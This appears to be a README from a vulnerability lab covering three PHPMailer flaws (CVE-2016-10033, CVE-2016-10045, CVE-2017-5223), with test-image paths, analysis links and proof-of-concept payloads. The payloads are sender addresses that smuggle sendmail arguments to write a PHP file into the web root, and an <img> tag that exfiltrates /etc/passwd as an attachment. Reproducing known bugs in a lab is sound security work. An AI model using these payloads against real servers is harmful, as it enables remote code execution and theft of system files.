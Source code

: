 ### CVE-2016-10033 - PHPMailer < 5.2.18 Remote Code Execution

测试镜像

* src/phpmailer/5.2.17/

参考链接

* [PHPMailer 命令执行漏洞（CVE-2016-10033）分析](https://blog.chaitin.cn/phpmailer-cve-2016-10033/)

Poc - from 头

```
a( -OQueueDirectory=/tmp -X/var/www/html/y.php )@qq.com
```

### CVE-2016-10045 - PHPMailer < 5.2.20 Remote Code Execution / escapeshell bypass

测试镜像

* src/phpmailer/5.2.17/

参考链接

* [PHP escapeshellarg()+escapeshellcmd() 之殇](https://paper.seebug.org/164/)

Poc - from 头

```
a'( -OQueueDirectory=/tmp -X/var/www/html/x.php )@qq.com
```

### attachment 任意文件读取特性 

测试镜像

* src/phpmailer/5.2.21/

影响版本

* <= 5.2.21

参考链接

* [PHPMailer任意文件读取漏洞分析（CVE-2017-5223）](http://www.freebuf.com/vuls/124820.html)

Poc - 在邮件正文里使用 `<img>` 标签，获取任意文件

```
$mail->AddAttachment('test.txt', 'test.txt');
$mail->IsHTML(true);
$msg="<img src='/etc/passwd'>test";
$mail->msgHTML($msg);
```


